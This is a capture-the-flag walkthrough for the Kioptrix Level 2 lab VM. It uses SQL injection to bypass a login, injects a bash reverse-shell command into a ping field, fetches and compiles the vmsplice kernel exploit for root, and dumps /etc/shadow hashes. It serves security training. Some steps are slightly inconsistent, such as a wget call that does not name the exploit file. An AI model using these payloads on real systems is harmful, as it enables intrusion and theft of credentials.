


# Kioptrix: Level 2 - Capture the Flag Walkthrough

A complete walkthrough of the Kioptrix Level 2 CTF challenge, demonstrating how to leverage SQL Injection for authentication bypass, Command Injection for initial network access, and a local kernel vulnerability for full root privilege escalation.

## 🎯 Target Overview
* **OS:** CentOS (Linux Kernel 2.6.9-55.EL)
* **IP Address:** 192.168.0.24
* **Difficulty:** Beginner / Intermediate

---

## 🔍 Stage 1: Enumeration & Scanning
An initial port and service scan was performed using Nmap to identify active network access hooks:

```bash
nmap -sV 192.168.0.24
```

### Key Findings:
* **Port 22/tcp:** OpenSSH 3.9p1
* **Port 80/tcp:** Apache httpd 2.0.52 (CentOS web login engine)
* **Port 3306/tcp:** MySQL database back-end

<!-- 🖼️ PLACE FIRST IMAGE HERE -->


*Figure 1: Service identification highlighting active web and database components.*

---

## 🚀 Stage 2: Exploitation & Initial Access

### 🔐 Web Authentication Bypass (SQL Injection)
Navigating to `http://192.168.0.24` revealed an administrative web login prompt. Because user input was passed unsanitized straight into backend MySQL query strings, an **SQL Injection (SQLi)** payload was injected into the Username field:

```text
admin' OR '1'='1
```

<!-- 🖼️ PLACE SECOND IMAGE HERE -->


*Figure 2: SQL Injection input tracking alignment.*

*Note: The password field parameter was left completely blank.*

**Result:** The database logic evaluated the statement as universally true, ignored the password validation parameter, and successfully authenticated entry into the panel dashboard.

---

### 💻 Remote Command Execution (RCE)
Once authenticated, the console exposed a system management utility titled *"Ping a Machine on the Network"*. Due to an HTML rendering error in legacy browsers, the interface boxes were hidden but fully active. By appending an operator payload, the system command syntax was hijacked.

1. A Netcat listener was established on the attacker host to await the reverse callback:
```bash
nc -lvnp 4444
```

<!-- 🖼️ PLACE THIRD IMAGE HERE -->


*Figure 3: Setting up the Netcat listener to catch the interactive shell session.*

---

2. The following unified logical payload was delivered through the command field entry parameter:
```text
192.168.0.21 && bash -i >& /dev/tcp/192.168.0.21/4444 0>&1
```

<!-- 🖼️ PLACE FOURTH IMAGE HERE -->


*Figure 4: Delivering the unified logical payload to the backend ping handler.*

**Result:** The web server executed the background task and sent back an interactive reverse shell session to the listener terminal as low-privilege web execution profile `apache`.

```bash
connect to from (UNKNOWN) 32770
bash: no job control in this shell
bash-3.00\$ whoami
apache
```

---

## 📈 Stage 3: Local Privilege Escalation (Root)

System profiling was performed from the active interactive terminal session context:
```bash
bash-3.00\$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686
```

The system was identified running **Linux Kernel 2.6.9**, which contains a fatal memory mapping structural flaw vulnerable to the classic local privilege escalation exploit **`vmsplice`** (**CVE-2008-0600**).

### 📂 File Transfer & Execution
The exploit module was staged inside the Kali environment, served over an unencrypted local Python instance, and transferred down to the target environment's `/tmp/` staging layout:

```bash
# On Target Environment Shell
cd /tmp
wget http://192.168.0.21
gcc -o rootme exploit.c
./rootme
```
<!-- 🖼️ PLACE FIFTH IMAGE HERE -->


*Figure 5: Compiling and executing the exploit module to obtain administrative shell status.*

**Result:** The execution completed successfully, exploiting the local memory allocation boundaries to instantly drop execution flow into an elevated root access context (`sh-3.00#`).

```bash
bash-3.00\$ whoami
root
```

---

## 🔓 Stage 4: Post-Exploitation Loot
As concrete proof of total target control, the administrative shell dumped the `/etc/shadow` configuration data, exposing the `md5crypt` password hashes for the primary system interaction profiles:

```text
root:\$1\$FTpMLT88\$VdzDQTTcksukSKMLRSVlc.:14529:0:99999:7:::
john:\$1\$wk7kHI5I\$2kNTw6ncQQCecJ.5b8xTL1:14525:0:99999:7:::
harold:\$1\$7d.sVxgm\$3MYWsHDv0F/LP.mjL9lp/1:14529:0:99999:7:::
```

<!-- 🖼️ PLACE SIXTH IMAGE HERE -->


*Figure 6: Exposing administrative shadow configurations via the root context.*

---

## 🏁 Flag Capture / Conclusion
With full administrative access granted and system hashes successfully retrieved, the platform's execution architecture is completely compromised.

🎉 **Kioptrix Level 2: 100% Completed.**
